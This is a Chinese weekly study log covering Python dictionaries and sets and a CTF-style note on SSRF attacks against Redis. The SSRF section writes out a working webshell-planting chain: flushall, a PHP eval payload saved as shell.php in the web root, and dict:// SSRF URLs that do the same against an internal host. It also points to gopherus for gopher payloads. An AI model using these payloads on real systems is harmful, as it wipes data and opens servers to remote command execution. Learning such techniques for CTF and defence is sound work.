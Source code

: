 # 完成事项
- python
- ssrf攻击Redis

# 下周待做事项
- python
- ctfshow刷题

# 本周学习的知识分享
## python
### 字典
语法如下
```py
demo = {key1 : value1, key2 : value2, key3 : value3 }
```

用法演示
```py
test = {'name':'shone','age':20,1:'一'}

#全部输出
print(test)

#单独输出
print(test[1],len(test))

#使用 del 删除元素
del test[1]
print(test)
```
>注:不允许同一个键出现两次。创建时如果同一个键被赋值两次，后一个值会被记住
### 集合
```py
#集合的创建
demo1 = {'a','b','c','a'}
demo2 = set(['x','y','z','a','b','c'])
#空集合必须用 set() 而不是 { }，因为 { } 是用来创建一个空字典。

print(demo1) #去重

#判断元素是否在集合内
print('a' in demo1)
print('g' in demo1)

#集合间的运算
print(demo2 - demo1)
print(demo2 | demo1)
print(demo2 & demo1)
print(demo2 ^ demo1)

demo = set('abcd')
print(demo)

#添加元素
demo1.add('x')
print(demo1)

#删除元素
demo1.remove('x')
print(demo1)

#随机删除集合中的一个元素
demo1.pop()
print(demo1)#每次的结果都不一样

#计算集合元素个数
print(len(demo1))

#清空集合
demo1.clear()
print(demo1)
```

## ssrf攻击Redis
**ssrf:**就是通过服务端的漏洞，来把漏洞服务当做跳板,访问其他无法从外网访问的服务端内网内容  
**Redis:**是一个数据库  

下面的是Redis的命令，可以达到写入木马的效果，ssrf只是让服务端的Redis运行这些命令  
```bash
flushall
#清空 Redis 中所有数据库的所有键
set 1 '<?php eval($_GET["cmd"]);?>'
#键名为 1，值为 <?php eval($_GET["cmd"]);?>
config set dir /var/www/html
#修改Redis配置，指定 /var/www/html 为Redis存储数据的目录
config set dbfilename shell.php
# Redis 的数据库文件名设置为 shell.php
save
#把内容含有 <?php eval($_GET["cmd"]);?> 的文件存储为 /var/www/html/shell.php
```
#### 通过dict协议
更改rdb文件的目录至网站目录下
```bash
url=dict://192.168.1.1:6380/config:set:dir:/var/www/html
```
修改文件名
```bash
url=dict://192.168.1.1:6380/config:set:dbfilename:shell.php
```
写入webshell
```bash
url=dict://192.168.1.1:6380/set:shell:"<?php eval($_GET["cmd"]);?>" 
```
#### 通过gopher协议
`gopherus`可生成gopher协议下的redis一句话木马
![](https://gitee.com/SSSSSHONE/ss/raw/master/20250119233650.png)
